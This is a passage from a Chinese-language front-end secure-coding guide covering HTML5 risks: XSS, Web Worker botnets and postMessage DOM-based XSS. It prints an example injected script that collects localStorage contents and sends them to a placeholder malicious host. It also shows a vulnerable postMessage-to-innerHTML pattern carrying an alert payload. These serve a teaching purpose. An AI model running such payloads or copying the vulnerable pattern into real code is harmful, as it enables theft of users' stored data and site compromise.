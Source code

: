 如果网站存在XSS漏洞，攻击者的注入代码：

```JavaScript
<script>
   var i =0;
   var str = “”;
   while(localStorage.key(i) != null)
   {
      var key = localStorage.key(i);
       str += key +”:” + localStorage. getItem(key);
       i++;
}
document.location=http://your-maliciours-site.com?stolen=+str;
<script>
```

-------

##### 4.12.2.3.Web worker安全

* 【规范要求】

对于Web workder预防僵尸网络风险需要注意的是：对访问的站点加入黑/白名单策略。对黑名单站点进行访问预警，对访问的客户端资源占用情况进行监控，发现某个页面资源占用反常需进行访问预警。

* 【详情说明】

Html5“解决”了js单线程问题，提出了Web worker机制，它为js提供多线程支持，但是多线程带来了一个非常可怕的危险-僵尸网络。Web worker造成的僵尸网络就是在用户不知情的情况下，使用pc端的资源往外发送大量的请求，如果受控的客户端（僵尸）够多，并且针对某一个目标发送，可以造成应用层的DDOS。

* 【代码示例】

Web workder的使用代码：

```JavaScript
var worker = new Worker("worker.js");
worker.postMessage("hello world");
worker.onmessage = function(){}
```

##### 4.12.2.4.新标签postMessage安全

* 【规范要求】

使用postMessage标签时，在onmessage中不能直接使用innerHTML类似的语句添加或者修改网页。

* 【详情说明】

postMessage是web worker中的一个函数，它的作用是主线程给新线程post数据用的，并且postMessage是不通过服务器的，那么很有可能造成DOM-based XSS。

* 【代码示例】

新标签postMessage的利用代码：

```JavaScript
postMessage("<script>alert(1)</script>");
worker.onmessage = function(e) {
    document.getElementById("test").innerHTML = e.data;
}
```
